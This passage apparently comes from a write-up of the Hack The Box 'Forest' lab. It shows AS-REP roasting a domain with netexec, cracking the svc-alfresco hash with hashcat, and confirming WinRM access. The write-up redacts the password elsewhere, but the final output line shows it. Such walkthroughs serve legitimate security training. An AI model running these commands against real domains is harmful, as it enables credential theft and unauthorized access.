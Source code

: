 {% code overflow="wrap" %}
```bash
$ nxc ldap 10.10.10.161 -u users.lst -p '' --asreproast asreproast.lst
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.161    445    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:a89<REDACTED>8fa
```
{% endcode %}

We got back the hash of the `svc_alfresco` account, so we can try to crack it. If we supply just the hash file and a password list to Hashcat, the **auto-detect function** will find the appropriate mode to use and subsequently attempt to crack it.&#x20;

{% code overflow="wrap" fullWidth="false" %}
```bash
# asking hashcat to display the appropriate mode and then apply it
$ hashcat asreproast.lst /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6-850-gfafb277e0) starting in autodetect mode

OpenCL API (OpenCL 3.0 ) - Platform #1 [Intel(R) Corporation]
=============================================================
* Device #1: Intel(R) Graphics [0x9a60], 3200/6465 MB (512 MB allocatable), 32MCU

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #2 [The pocl project]
==================================================================================================================================================
* Device #2: cpu-skylake-avx512-11th Gen Intel(R) Core(TM) i7-11800H @ 2.30GHz, skipped

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol
<SNIP>
$krb5asrep$23$svc-alfresco@HTB.LOCAL:a89<REDACTED>8fa:s<REDACTED>e
<SNIP>
```
{% endcode %}

Next, we can validate the credentials and check if the user has WinRM access.

{% code overflow="wrap" fullWidth="false" %}
```bash
# validate credentials
$ nxc smb 10.10.10.161 -u 'svc-alfresco' -p 's<REDACTED>e'
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s<REDACTED>e

# check for WinRM access
$ nxc winrm 10.10.10.161 -u 'svc-alfresco' -p 's<REDACTED>e'
SMB         10.10.10.161    445    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```
{% endcode %}
